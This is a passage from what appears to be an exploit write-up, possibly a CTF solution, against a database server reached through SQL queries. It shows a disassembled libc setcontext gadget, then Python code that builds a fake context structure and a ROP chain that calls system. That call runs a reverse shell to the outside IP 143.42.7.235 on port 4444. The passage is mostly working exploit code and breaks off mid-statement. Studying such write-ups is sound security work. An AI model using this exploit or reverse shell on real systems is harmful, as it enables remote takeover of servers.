 ```c
   0x00007f87a7523f4e <+94>:	push   rcx
   0x00007f87a7523f4f <+95>:	mov    rsi,QWORD PTR [rdx+0x70]
   0x00007f87a7523f53 <+99>:	mov    rdi,QWORD PTR [rdx+0x68]
   0x00007f87a7523f57 <+103>:	mov    rcx,QWORD PTR [rdx+0x98]
   0x00007f87a7523f5e <+110>:	mov    r8,QWORD PTR [rdx+0x28]
   0x00007f87a7523f62 <+114>:	mov    r9,QWORD PTR [rdx+0x30]
   0x00007f87a7523f66 <+118>:	mov    rdx,QWORD PTR [rdx+0x88]
   0x00007f87a7523f6d <+125>:	xor    eax,eax
   0x00007f87a7523f6f <+127>:	ret
   0x00007f87a7523f70 <+128>:	mov    rcx,QWORD PTR [rip+0x190e69]        # 0x7f87a76b4de0
   0x00007f87a7523f77 <+135>:	neg    eax
   0x00007f87a7523f79 <+137>:	mov    DWORD PTR fs:[rcx],eax
   0x00007f87a7523f7c <+140>:	or     rax,0xffffffffffffffff
   0x00007f87a7523f80 <+144>:	ret
```

As you can see it has a lot of nice assembly instructions, we can set the `rsp` with value from `[rdx+0xa0]`. Good news is that `rdx` is taken from `rdi`, which points to memory that we control. A bit of shenanigans and we end up with final payload:


```py
SETCONTEXT = 0x40ef0
SYSTEM = 0x4c3a0
POP_RDI = 0x0000000000027765 # : pop rdi ; ret

def exploit():
    conn.commit(); cur = conn.cursor()
    cur.execute(b"SELECT repeat('1s0', 1000)") # fix rdi MSB

    fake_struct = flat(
        b'whatever',
        p64(rdi+0x10), # point to address below
        p64(libc_base+SETCONTEXT),
        b'/bin/bash -c "/bin/sh -i >& /dev/tcp/143.42.7.235/4444 0>&1"   \x00', # padded to 8B
    )

    for v in range(1+8, 0x1d):
        if v == 0x13: # rcx
            # special case - point it to ret
            # it is being pushed on stack later, so we dont want to break our ROP
            fake_struct += p64(libc_base+POP_RDI+1)
            continue
        
        # create values that will be picked by [rdx+X] operations
        # 0x10000 is to move our new rsp a bit further so `system` function stack is able to grow
        fake_struct += p64(rdi+0x70+0x88+0x10000)

    # add padding
    for _ in range(0x10000//8):
        fake_struct += p64(0xDD)

    # ROP
    fake_struct += flat(
        p64(libc_base+POP_RDI+1), # ret to align the stack
        p64(libc_base+POP_RDI),
        p64(rdi+0x18), # reverse shell cmd
        p64(libc_base+SYSTEM),
    )

    cur.execute(flat(
        b"SELECT '\\x",
        b'deadbeef', # add 4B padding to align the rest of payload to 8B
        fake_struct.hex().encode(),
```